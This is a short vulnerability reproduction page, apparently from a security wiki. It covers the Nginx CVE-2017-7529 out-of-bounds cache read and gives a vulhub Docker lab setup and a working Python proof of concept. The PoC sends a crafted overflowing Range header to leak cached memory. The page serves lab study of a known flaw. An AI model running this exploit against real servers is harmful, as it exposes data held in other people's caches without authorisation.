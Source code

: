 ```yaml
---
title: Nginx out-of-bounds read cache vulnerability CVE-2017-7529
---
```


# Nginx out-of-bounds read cache vulnerability CVE-2017-7529

## Vulnerability Description
When Nginx reverses the proxy site, it usually caches some files, especially static files. 

If my request contains a Range header, Nginx will return the content of the specified length based on the start and end positions I specified. 

## Affect Version
<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Nginx version 0.5.6 - 1.13.2</span>

## Environment construction
``` shell
git clone https://github.com/vulhub/vulhub.git
cd vulhub/nginx/CVE-2017-7529
docker-compose up -d
```
Visit `http://xxx.xxx.xxx.xxx:8080` and it's normal

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/image-20220307133726141.png)

## Vulnerability reappears

Verification with POC

```shell
python poc.py http://xxx.xxx.xxx.xxx:8080/
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/318085cd-8491-4ca4-b19e-de8f66041c6b.png)

## Vulnerability POC

```python
#!/usr/bin/env python
import sys
import requests

if len(sys.argv) < 2:
    print("%s url" % (sys.argv[0]))
    print("eg: python %s http://your-ip:8080/" % (sys.argv[0]))
    sys.exit()

headers = {
    'User-Agent': "Mozilla/5.0 (Windows NT 10.0) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/42.0.2311.135 Safari/537.36 Edge/12.10240"
}
offset = 605
url = sys.argv[1]
file_len = len(requests.get(url, headers=headers).content)
n = file_len + offset
headers['Range'] = "bytes=-%d,-%d" % (
    n, 0x8000000000000000 - n)

r = requests.get(url, headers=headers)
```
